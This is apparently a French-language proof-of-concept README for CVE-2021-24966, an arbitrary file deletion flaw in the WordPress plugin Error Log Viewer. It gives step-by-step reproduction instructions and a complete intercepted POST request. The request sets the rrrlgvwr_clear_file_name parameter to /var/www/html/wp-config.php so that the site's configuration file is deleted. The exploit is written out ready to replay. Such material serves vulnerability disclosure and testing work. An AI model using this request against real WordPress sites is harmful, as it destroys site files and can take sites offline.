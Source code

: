 # CVE-2021-24966
Cet exploit est produite sur Wordpress via le plugin utilitaire Error Log Viewer qui permet d'afficher les fichiers journaux contenant des erreurs directement depuis le tableau de bord d'administration de WordPress.
On peut accéder à tous les fichiers journaux à partir d'un seul endroit, affichez la dernière activité, sélectionnez les journaux par date, affichez un fichier journal complet ou effacez un fichier journal.
La fonctionnalité "effacer un fichier journal" peut être utilisée pour supprimer un fichier arbitraire dans un site Web Wordpress.
Cet exploit nécessite un compte utilisateur authentifié pour être utilisé, un attaquant peut par exemple utilisé cet exploit pour détruire un site via la suppression des fichiers du site

## Repoduction

 - Installer et activé le plugin 
 - Clické sur "Log Monitor" qui se trouve dans Log Viewers
 - choisir un fihcier log à effacer
 - Intercepté la requête avec Burp ou un autre client proxy 
 - Une fois la requête intercepté changer le parametre "rrrlgvwr_clear_file_name" avec le chemin d'un fichier tel que /var/www/site/wp-config.php

## Exemple de requête intercepté
    POST /wp-admin/admin.php?page=rrrlgvwr-monitor.php HTTP/1.1
    Host: 127.0.0.1:8000
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 603
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cookie: [admin+]

    rrrlgvwr_select_log=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Flearnpress%2Finc%2Fgateways%2Fpaypal%2Fpaypal-ipn%2Fipn_errors.log&rrrlgvwr_lines_count=10&rrrlgvwr_from=&rrrlgvwr_to=&rrrlgvwr_show_content=all&rrrlgvwr_newcontent=%5B05-Feb-2015+07%3A28%3A49+UTC%5D+Invalid+HTTP+request+method.%0D%0A%0D%0A++++++++++++++++++++++++&rrrlgvwr_clear_file=Clear+log+file&rrrlgvwr_clear_file_name=/var/www/html/wp-config.php&rrrlgvwr_nonce_name=1283d54cc5&_wp_http_referer=%2Fwp-admin%2Fadmin.php%3Fpage%3Drrrlgvwr-monitor.php


## Mettre à jour
